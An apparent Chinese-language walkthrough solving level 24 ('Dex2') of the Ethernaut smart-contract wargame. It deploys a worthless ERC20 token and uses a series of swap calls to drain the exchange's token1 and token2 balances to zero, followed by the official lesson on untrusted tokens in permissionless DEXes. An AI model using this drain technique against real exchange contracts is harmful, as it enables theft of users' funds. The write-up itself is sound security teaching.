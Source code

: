 # 24 Dex2

## 思路

目标: 与[上一关Dex不同](https://github.com/yinhui1984/EthernautGameReferenceAnswers/blob/main/23_Dex.md), 要求窃取全部的token1和token2 (上一关是'或')

交易所代码方面, 删除了上一关`swap`函数中的限制:

```solidity
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```



思路:

删除了币种限制, 也就是说可以用任意币来和token1或token2进行交换

 那么创建一个垃圾币token3 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract Token3 is ERC20 {
    constructor(string memory _name, string memory _symbol)
        ERC20(_name, _symbol)
    {
        uint256 initSupply = 1000 * 10**decimals();
        _mint(msg.sender, initSupply);
    }
}

```

使用player部署token3, 假设 token3 合约地址为0x66cab61E3C7792Ae1fE83A294B0F92A105cF7255, player便有了很多token3...

```js
token3="0x66cab61E3C7792Ae1fE83A294B0F92A105cF7255"
(await contract.balanceOf(token3, player)).toString() //"1000000000000000000000"
```



发送1000个token3 给交易所

![image](https://github.com/yinhui1984/imagehosting/blob/main/images/1676528790194028000.png?raw=true)

```js
(await contract.balanceOf(token3, instance)).toString()
"1000"
```

现在我们来看看使用token3兑换token1和token2的价格

```js
(await contract.getSwapAmount(token3, await contract.token2(), 1000)).toString()
"100"
(await contract.getSwapAmount(token3, await contract.token1(), 1000)).toString()
"100"
```

哦~~~~ 1000个token3可以兑换100个token1或token2

那就不客气了

先对交易所进行授权(允许交易所操作player的token3)

<img src="https://github.com/yinhui1984/imagehosting/blob/main/images/1676529557793643000.png?raw=true" alt="image" style="zoom:50%;" />

然后

```js
await contract.swap(token3, await contract.token1(), 1000)
await contract.swap(token3, await contract.token2(), 1000)
await contract.swap(token3, await contract.token2(), 3000)
```

```
(await contract.balanceOf(await contract.token1(), instance)).toString()
"0"
(await contract.balanceOf(await contract.token2(), instance)).toString()
"0"
```



## 心得(官方)

As we've repeatedly seen, interaction between contracts can be a source of unexpected behavior.

Just because a contract claims to implement the [ERC20 spec](https://eips.ethereum.org/EIPS/eip-20) does not mean it's trust worthy.

Some tokens deviate from the ERC20 spec by not returning a boolean value from their `transfer` methods. See [Missing return value bug - At least 130 tokens affected](https://medium.com/coinmonks/missing-return-value-bug-at-least-130-tokens-affected-d67bf08521ca).

Other ERC20 tokens, especially those designed by adversaries could behave more maliciously.

If you design a DEX where anyone could list their own tokens without the permission of a central authority, then the correctness of the DEX could depend on the interaction of the DEX contract and the token contracts being traded.

